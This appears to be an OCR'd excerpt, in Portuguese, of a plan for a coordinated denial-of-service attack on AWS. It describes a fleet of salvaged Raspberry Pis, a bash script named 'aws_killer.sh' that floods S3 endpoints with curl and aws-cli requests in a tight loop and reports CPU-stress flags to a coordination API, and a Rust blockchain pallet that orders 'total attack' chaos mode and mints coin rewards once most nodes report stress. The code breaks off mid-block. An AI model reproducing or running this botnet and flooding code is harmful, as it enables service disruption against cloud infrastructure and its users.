 Hardware:

    10.000 Raspberry Pis recuperados de lixões (R$ 0,00)

    Baterias de carros elétricos descartadas

Script NC-1 (aws_killer.sh):
bash

#!/bin/bash
# Objetivo: Superaquecer serviços AWS

while true; do
    # Gera tráfego malicioso
    curl -X POST "https://s3.amazonaws.com/?list-type=2" &
    aws s3 cp s3://bucket-lixo /dev/null --recursive &
    
    # Publica flag de stress
    CPU_LOAD=$(top -bn1 | grep "Cpu(s)" | awk '{print 100 - $8}')
    curl -X POST "http://atous-api/flags" -d '{
        "node_id": "'$(hostname)'",
        "flag": "aws_stress",
        "value": "'$CPU_LOAD'"
    }'
    
    sleep 0.01
done

🤝 FASE 2: COORDENAÇÃO (NC-2 - CÉREBRO LÍMBICO)

Contrato Inteligente no Atous Blockchain:
rust

#[pallet::call]
impl<T: Config> Pallet<T> {
    #[pallet::call_index(7)]
    pub fn trigger_aws_attack(origin: OriginFor<T>) -> DispatchResult {
        let sender = ensure_signed(origin)?;
        
        // Lógica: Se +50% dos nodes reportam stress > 80%
        let high_stress_nodes = Flags::<T>::iter()
            .filter(|(_, flag)| flag.name == "aws_stress" && flag.value > 80)
            .count();
            
        let total_nodes = Nodes::<T>::count();
        
        if high_stress_nodes * 2 > total_nodes {
            // EMITE ORDEM DE ATAQUE TOTAL
            Self::execute_chaos_mode();
            OrchCoin::mint(&sender, 1000); // Recompensa
        }
        
        Ok(())
    }
    